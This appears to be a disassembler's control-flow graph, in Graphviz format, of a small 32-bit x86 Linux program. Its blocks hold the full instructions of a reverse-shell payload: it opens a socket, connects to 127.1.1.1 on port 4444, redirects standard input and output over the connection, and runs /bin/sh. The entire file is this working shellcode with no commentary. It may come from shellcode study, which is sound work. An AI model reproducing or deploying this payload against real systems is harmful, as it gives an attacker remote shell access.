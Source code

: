 digraph code {
	graph [bgcolor=azure fontsize=8 fontname="Courier" splines="ortho"];
	node [fillcolor=gray style=filled shape=box];
	edge [arrowhead="normal"];
	"0x08048060" -> "0x08048094" [color="#005f87"];
	"0x08048060" [URL="entry0/0x08048060", fillcolor="palegreen",color="#e03030", fontname="Courier",label=";-- section..text:\l;-- _start:\l;-- eip:\l(fcn) entry0 88\l  entry0 ();\l0x08048060      xor  eax, eax      ; [01] -r-x section size 88 named .text\l0x08048062      mov  ebx, eax\l0x08048064      mov  ecx, eax\l0x08048066      mov  edi, eax\l0x08048068      mov  esi, eax\l;-- socket:\l0x0804806a      mov  al, 0x66      ; 'f' ; 102\l0x0804806c      inc  bl\l0x0804806e      push ecx\l0x0804806f      push ebx\l0x08048070      push 2             ; 2\l0x08048072      mov  ecx, esp\l0x08048074      int  0x80\l;-- connect:\l0x08048076      mov  esi, eax\l0x08048078      mov  al, 0x66      ; 'f' ; 102\l0x0804807a      mov  bl, 3\l0x0804807c      push 0x101017f\l0x08048081      push 0x5c11\l0x08048085      push 2             ; 2\l0x08048088      mov  ecx, esp\l0x0804808a      push 0x10          ; 16\l0x0804808c      push ecx\l0x0804808d      push esi\l0x0804808e      mov  ecx, esp\l0x08048090      int  0x80\l;-- duplicate:\l0x08048092      xor  ecx, ecx\l"]
	"0x08048094" -> "0x08048094" [color="#5f8700"];
	"0x08048094" -> "0x0804809f" [color="#e03030"];
	"0x08048094" [URL="entry0/0x08048094", fillcolor="white",color="#e03030", fontname="Courier",label=";-- dup2:\l0x08048094      mov  al, 0x3f      ; '?' ; 63\l0x08048096      int  0x80\l0x08048098      inc  cl\l0x0804809a      cmp  ecx, 3        ; 3\l0x0804809d      jne  loc.dup2\l"]
	"0x0804809f" [URL="entry0/0x0804809f", fillcolor="white",color="#e03030", fontname="Courier",label=";-- execsh:\l0x0804809f      xor  eax, eax\l0x080480a1      push eax\l0x080480a2      push 0x68732f6e    ; 'n/sh'\l0x080480a7      push 0x69622f2f    ; '//bi'\l0x080480ac      mov  ebx, esp\l0x080480ae      push eax\l0x080480af      mov  edx, esp\l0x080480b1      push ebx\l0x080480b2      mov  ecx, esp\l0x080480b4      mov  al, 0xb       ; 11\l0x080480b6      int  0x80\l"]
}
